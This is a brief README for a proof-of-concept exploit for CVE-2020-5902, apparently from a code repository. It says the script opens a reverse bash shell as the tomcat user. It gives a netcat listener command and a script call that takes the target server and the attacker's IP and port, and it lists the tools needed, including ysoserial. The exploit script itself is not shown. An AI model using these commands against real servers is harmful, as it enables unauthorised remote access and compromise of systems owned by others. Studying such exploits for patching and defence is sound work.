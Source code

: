 # Proof of Concept for CVE-2020-5902. Sends a reverse bash shell running as tomcat.
```
nc -l -v -p localport
./CVE-2020-5902.sh <server> <localip> <localport>
```
## Requirements
* Java JDK (note: Some versions of Java may not work. Tested with v11)
* hsqldb.jar 1.8 (included in this repo)
* ysoserial https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
